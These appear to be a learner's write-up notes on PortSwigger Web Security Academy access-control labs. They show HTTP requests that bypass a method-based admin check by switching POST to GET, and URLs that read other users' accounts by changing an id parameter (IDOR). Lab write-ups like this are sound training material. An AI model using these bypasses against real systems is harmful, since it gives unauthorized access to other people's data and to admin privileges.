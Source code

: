 ### Lab: Method-based access control can be circumvented

This lab implements access controls based partly on the HTTP method of requests.

We can see this request with administrator user.

```
POST /admin-roles HTTP/1.1
...
username=carlos&action=upgrade
```

```
GET /admin - HTTP/1.1 401 Unauthorized
POST /admin-roles - HTTP/1.1 401 Unauthorized
```

With non privileged user, we can get 401 Unauthorized error.

But we can bypass the error with another type of request instead of using POST.

```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1 - 302 Found
GET /admin - 200 OK
```

### Lab: User ID controlled by request parameter

This lab has a horizontal privilege escalation vulnerability on the user account page.

`https://ac4c1f6b1f6bfaadc0aa8982008b003c.web-security-academy.net/my-account?id=carlos`

There is acces control on id parameter. We can access any user data with it.

### Lab: User ID controlled by request parameter, with unpredictable user IDs

This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

`https://acbd1f801e9bd40ec09a2c4f00a700a5.web-security-academy.net/post?postId=3`

We could identify Carlos's id in a blog post.

Carlos - `https://acbd1f801e9bd40ec09a2c4f00a700a5.web-security-academy.net/blogs?userId=a62ef538-3744-46cd-813f-3355c5ae6d55`

`https://acbd1f801e9bd40ec09a2c4f00a700a5.web-security-academy.net/my-account?id=a62ef538-3744-46cd-813f-3355c5ae6d55`

There is no access control on id parameter. We can access any user data with it.

### Lab: User ID controlled by request parameter with data leakage in redirect

This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

`https://acab1f031fa840ebc0970272006000be.web-security-academy.net/my-account?id=carlos`
